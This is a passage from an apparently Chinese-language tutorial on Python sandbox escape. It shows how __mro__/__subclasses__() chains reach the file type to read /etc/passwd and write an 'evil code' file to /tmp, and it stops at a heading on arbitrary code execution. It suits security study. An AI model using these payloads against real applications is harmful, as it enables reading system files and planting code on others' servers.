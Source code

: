 
```javascript
>>> ''.__class__.__mro__[2].__subclasses__()
[<type 'type'>, <type 'weakref'>, <type 'weakcallableproxy'>, <type 'weakproxy'>, <type 'int'>, <type 'basestring'>, <type 'bytearray'>, <type 'list'>, <type 'NoneType'>, <type 'NotImplementedType'>, <type 'traceback'>, <type 'super'>, <type 'xrange'>, <type 'dict'>, <type 'set'>, <type 'slice'>, <type 'staticmethod'>, <type 'complex'>, <type 'float'>, <type 'buffer'>, <type 'long'>, <type 'frozenset'>, <type 'property'>, <type 'memoryview'>, <type 'tuple'>, <type 'enumerate'>, <type 'reversed'>, <type 'code'>, <type 'frame'>, <type 'builtin_function_or_method'>, <type 'instancemethod'>, <type 'function'>, <type 'classobj'>, <type 'dictproxy'>, <type 'generator'>, <type 'getset_descriptor'>, <type 'wrapper_descriptor'>, <type 'instance'>, <type 'ellipsis'>, <type 'member_descriptor'>, <type 'file'>, <type 'PyCapsule'>, <type 'cell'>, <type 'callable-iterator'>, <type 'iterator'>, <type 'sys.long_info'>, <type 'sys.float_info'>, <type 'EncodingMap'>, <type 'fieldnameiterator'>, <type 'formatteriterator'>, <type 'sys.version_info'>, <type 'sys.flags'>, <type 'exceptions.BaseException'>, <type 'module'>, <type 'imp.NullImporter'>, <type 'zipimport.zipimporter'>, <type 'posix.stat_result'>, <type 'posix.statvfs_result'>, <class 'warnings.WarningMessage'>, <class 'warnings.catch_warnings'>, <class '_weakrefset._IterationGuard'>, <class '_weakrefset.WeakSet'>, <class '_abcoll.Hashable'>, <type 'classmethod'>, <class '_abcoll.Iterable'>, <class '_abcoll.Sized'>, <class '_abcoll.Container'>, <class '_abcoll.Callable'>, <type 'dict_keys'>, <type 'dict_items'>, <type 'dict_values'>, <class 'site._Printer'>, <class 'site._Helper'>, <type '_sre.SRE_Pattern'>, <type '_sre.SRE_Match'>, <type '_sre.SRE_Scanner'>, <class 'site.Quitter'>, <class 'codecs.IncrementalEncoder'>, <class 'codecs.IncrementalDecoder'>]
```

复制

复制

可以看到有一个`<type 'file'>`

- 最终payload

```javascript
''.__class__.__mro__[2].__subclasses__()[40]('/etc/passwd').read()
```

复制

也可以是

```javascript
()..__class__.__bases__[0].__subclasses__()[40]('/etc/passwd').read()
object.__subclasses__()[40]('/etc/passwd').read()
```

复制

写文件相仿

```javascript
''.__class__.__mro__[2].__subclasses__()[40]('/tmp/evil.txt', 'w').write('evil code')
().__class__.__bases__[0].__subclasses__()[40]('/tmp/evil.txt', 'w').write('evil code')
object.__subclasses__()[40]('/tmp/evil.txt', 'w').write('evil code')
```

复制

##### **任意代码执行**
